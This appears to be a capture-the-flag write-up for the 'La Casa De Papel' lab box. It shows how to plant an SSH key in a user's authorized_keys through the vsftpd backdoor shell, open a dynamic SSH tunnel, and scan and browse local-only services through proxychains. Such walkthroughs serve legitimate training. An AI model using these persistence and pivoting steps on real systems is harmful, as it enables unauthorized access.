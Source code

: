 
#La Casa De Papel

Alternate way to get into the box, we don't need to do any certificate to log in as in the intended way.

Generate a new rsa publci/private key with ssh-keygen, public key id_rsa.pub lets convert to base64, and call it PAYLOADBASE64


Log into the nc port 6200 after exploiting vsftd where we have a limited php enviroment, we have to upload the payload to /home/dali/.ssh/authorized_keys (we can overwrite it)
```
$>nc 10.10.10.131 6200
unlink("/home/dali/.ssh/authorized_keys");
fwrite(fopen("/home/dali/.ssh/authorized_keys","w+"),base64_decode("PAYLOADENBASE64"));
```

Now we can log it using ssh to test the id_rsa we generated before, but we are not doing any command stuff, we just use it to enable a dynamic tunnel with the machine.

'''
$>ssh -i id_rsa -D 1080 dali@10.10.10.131
'''

In other terminal, using proxychains we can scan the ports that are open only for local connections

'''
$>proxychains nmap -sT -n -Pn 127.0.0.1 -p-

PORT     STATE SERVICE
8000/tcp open  http-alt
'''

Port 8000 is open, and if we scan it we can see that is a web server, is the same webserver we can browse if we use the intented way of entering the machine, but locally we don't need any certificate.

'''
$>proxychains curl 127.0.0.1:8000
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:8000-<><>-OK
<li><a href="?path=SEASON-1">SEASON-1</a></li><li><a href="?path=SEASON-2">SEASON-2</a></li><li><strong>Select a season</strong></li>
'''

You have here also a python script to upload a public key and the private id_rsa file to enable the dynamic tunnel

